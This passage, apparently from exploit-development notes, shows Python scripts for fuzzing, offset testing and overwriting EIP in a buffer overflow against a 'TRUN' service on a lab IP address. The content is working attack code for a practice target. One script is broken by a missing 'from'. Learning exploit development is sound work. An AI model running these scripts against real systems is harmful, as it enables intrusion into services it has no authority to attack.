 ```python
		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	
	except:
		print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

**Offset**
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))
	
	payload = "TRUN /.:/" + offset
	
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

**Controlling / Overwriting the EIP**
```python
#!/usr/bin/python3

import sys, socket
time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))
	
	payload = "TRUN /.:/" + shellcode
	
	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
